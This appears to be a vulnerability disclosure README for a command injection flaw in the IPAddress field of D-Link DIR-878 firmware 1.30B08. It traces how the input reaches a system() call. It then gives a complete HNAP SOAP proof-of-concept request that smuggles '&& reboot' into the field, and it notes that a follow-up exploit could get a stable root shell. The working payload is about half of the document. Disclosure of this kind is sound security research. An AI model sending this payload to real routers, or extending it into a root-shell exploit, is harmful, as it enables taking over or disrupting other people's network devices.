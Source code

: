 # D-link DIR_878_FW1.30B08.bin Command injection vulnerability

A command injection vulnerability in the component /setnetworksettings/IPAddress of D-Link DIR878 DIR_878_FW1.30B08 allows attackers to escalate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## 1. Affected version

![pic1](pic1.png)Figure 1 shows the latest firmware Ba of the router



## Vulnerability details

![pic2](pic2.png)

The content obtained by the program through / setnetworksettings / IPAddress is passed to V6

![pic3](pic3.png)

After that, V6 is formatted into v39 through the sprintf function, and the content in v39 is executed through the system function. There is a command injection vulnerability



## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware DIR_878_FW1.30B08.bin
2. Attack with the following POC attacks，then the router system will reboot.

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH:
Content-Length: 633
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=LeaHzVaQ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress>&& reboot</IPAddress>
	<SubnetMask>255.255.255.0</SubnetMask>
	<DeviceName>dlinkrouter3</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>1</IPRangeStart>
	<IPRangeEnd>254</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell